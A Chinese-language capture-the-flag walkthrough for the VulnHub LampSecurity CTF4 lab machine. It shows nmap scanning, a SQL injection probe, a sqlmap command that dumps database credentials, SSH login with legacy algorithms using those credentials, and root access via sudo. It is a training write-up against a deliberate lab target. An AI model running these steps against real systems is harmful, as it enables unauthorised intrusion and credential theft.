 LampSecurityCTF4 - CTF
===

> 靶机下载: [镜像](https://download.vulnhub.com/lampsecurity/ctf4.zip)

### nmap 扫描

#### 主机发现

```bash
sudo nmap -sn 192.168.170.0/24
```
![1-1.png](1-1.png)

#### 端口扫描

```bash
sudo nmap --min-rate 10000 -p- 192.168.170.140
```

![1-2.png](1-2.png)

---

```bash
sudo nmap -sT -sV -O -p22,25,80,631 192.168.170.140
sudo nmap -sU -p22,25,80,631 192.168.170.140
sudo nmap --script=vuln --min-rate 10000 -p22,25,80,631 192.168.170.140
```

![1-3.png](1-3.png)

![1-4.png](1-4.png)

![1-5.png](1-5.png)

![1-6.png](1-6.png)

![1-7.png](1-7.png)

---

#### 收集信息

查看一下 nmap 扫出的 `robots.txt`:

```bash
curl http://192.168.170.140/robots.txt
```

![1-8.png](1-8.png)

访问网站:

![2-1.png](2-1.png)

访问 Blog 中的推文, url 为 `http://192.168.170.140/index.html?page=blog&title=Blog&id=2` , 可见是 GET 方式传参, 尝试一下 SQL 注入:

```sql
http://192.168.170.140/index.html?page=blog&title=Blog&id=1'
```

发现网页回显报错了, 说明此处应该存在 **SQL 注入**。

![2-2.png](2-2.png)

### sqlmap 自动注入

sqlmap 可以将 SQL 注入的流程高度智能化, 自动化。用 sqlmap 扫描该页面:

```bash
sudo sqlmap -u 'http://192.168.170.140/index.html?page=blog&title=Blog&id=2' --dbs --dump --batch
```

![2-3.png](2-3.png)

可以看见此处为**数字型注入**, sqlmap 使用了时间盲注和布尔盲注, 以及 UNION SELECT。

![2-4.png](2-4.png)

爆出了 `username:password`, 这可能是网站后台的登录密码, 也可能是 SSH 账密。

### SSH 登录

看一下 `sudo ssh dstevens@192.168.170.140`: 

![4-1.png](4-1.png)

这个返回说明在 SSH 客户端与服务器协商密钥交换算法时出现不匹配, 导致连接失败。

>   -   **安全策略升级**:
>   现代 SSH 客户端（如 OpenSSH 8.0+）默认禁用 SHA-1 相关的密钥交换算法（如 **diffie-hellman-group1-sha1**），因为这些算法已被证实**存在安全风险**。
>       -   **diffie-hellman-group1-sha1**（DH group1，1024 位，已不安全）
>       -   **diffie-hellman-group14-sha1**（DH group14，2048 位，安全性较低）
>       -   **diffie-hellman-group-exchange-sha1**（动态 DH 组交换）
>
>   -   **服务端配置老旧**:
>   目标服务器（192.168.170.140）的 SSH 服务端（如 OpenSSH 旧版本）仍在使用旧算法，而客户端已不再支持这些算法。

也就是说靶机的 ssh 相比与当前 Kali 机仍在使用旧算法, 这里需要手动指定。由于不知道靶机 ssh 具体用的哪一个, 索性全部列出好了:

```bash
sudo ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1 dstevens@192.168.170.140
```

显示还缺少秘钥类型指定:

![4-2.png](4-2.png)

同理, 如法炮制一下:

```bash
sudo ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss -oKexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1 dstevens@192.168.170.140
```

报错: 

![4-3.png](4-3.png)

搜索了一下, 原因应该在于这两种秘钥是默认禁用的, 那就挨个试试好了:

```bash
sudo ssh -oHostKeyAlgorithms=ssh-rsa -oKexAlgorithms=diffie-hellman-group1-sha1 dstevens@192.168.170.140
```

运气比较好, 直接就进来了, 看来 ssh 和网站后台账户的账密是一致的。接下来收集信息尝试提权:

![4-4.png](4-4.png)

### 提权

显示 `(ALL)ALL` , 实在是太幸福了, 那直接用 `sudo /bin/bash` 就可以了:

![5.png](5.png)

这里已经拿下了靶机。
